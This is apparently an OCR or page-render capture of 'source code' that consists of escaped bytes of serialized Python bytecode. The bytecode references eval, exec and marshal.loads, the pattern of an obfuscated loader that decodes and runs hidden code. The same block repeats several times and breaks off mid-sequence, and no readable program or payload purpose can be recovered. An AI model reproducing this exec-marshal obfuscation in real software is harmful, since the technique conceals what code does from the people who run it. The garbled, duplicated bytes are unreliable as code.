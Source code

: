 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01